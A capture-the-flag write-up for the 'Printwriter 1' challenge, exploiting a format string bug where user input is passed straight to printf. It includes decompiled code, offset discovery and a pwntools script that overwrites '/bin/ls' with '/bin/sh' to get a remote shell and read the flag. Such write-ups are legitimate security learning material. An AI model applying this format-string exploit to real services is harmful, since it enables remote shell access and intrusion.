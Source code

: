## Printwriter 1

> My wonderful app works both as an echo server and a file lister!
>
> Bet you can't hack it!`nc 35.240.143.82 4203`

Only the compiled `chal` file was given, after decompiling it with Ghidra, I get

```cpp
undefined8 main(void)
{
    int32_t iVar1;
    char *format;
    
    setup();
    while( true ) {
        fgets(&format, 0x70, _stdin);
        iVar1 = strncmp(&format, "quit", 4);
        if (iVar1 == 0) break;
        printf(&format);
    }
    system("/bin/ls");
    return 0;
}
```

As I can see, and `printf` has been used to print the output directly.

This challenge is in the format string attack category, which I can verify with a simple `%x`

```
$ nc 35.240.143.82 4203
%x
402004
%s
quit
```

### pwntools

I can use pwntools to quickly create our format string payload

#### offset

I first have to find the offset which can be easily done with

```python
from pwn import *

conn = remote("35.240.143.82", 4203)
context.clear(arch='amd64')


def send_payload(p):
    conn.wait(1)
    conn.sendline(p)
    return conn.recv()


print("offset =", FmtStr(execute_fmt=send_payload).offset)
```

```
[x] Opening connection to 35.240.143.82 on port 4203
[x] Opening connection to 35.240.143.82 on port 4203: Trying 35.240.143.82
[+] Opening connection to 35.240.143.82 on port 4203: Done
[*] Found format string offset: 6
offset = 6
[*] Closed connection to 35.240.143.82 port 4203
```

#### what attack to use

In the decompiler, I noticed how `/bin/ls/` is located at `0x00404058`

 ![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221173130465.png)

If I edit `/bin/ls/` into `/bin/sh`, as they have same amount of characters, I can gain remote shell access.

Hence I will be using `fmtstr_payload` from pwntools

#### payload

```python
from pwn import *

conn = remote("35.240.143.82", 4203)

context.clear(arch='amd64')
payload = fmtstr_payload(0x6, {0x404058: b'/bin/sh'}, write_size='short')
conn.wait(1)
print("sending" + str(payload))
conn.sendline(payload)
print(conn.recv())
conn.sendline("quit")
conn.interactive()
```

We will be writing the string `/bin/sh` to address `0x404058` with offset `6`.

After sending the payload, `/bin/ls` will be changed to `/bin/sh`. This means that after I exit the loop with `quit`, it should give us shell access.

I will then switch to interactive to more easily take advantage of the shell.

```cpp
system("/bin/sh");
```

Indeed we gain remote shell access.

By running the command `ls`, I find `flag.txt`, and with `cat flag.txt`

```
cat flag.txt
flag{why_would_printf_be_able_to_write_memory????!!}
```

Flag obtained

> If you run the following you can find the message I left
>
> ```
> cd ~
> cd w
> cat README.txt
> Hello, I was here ;) ZY
> ```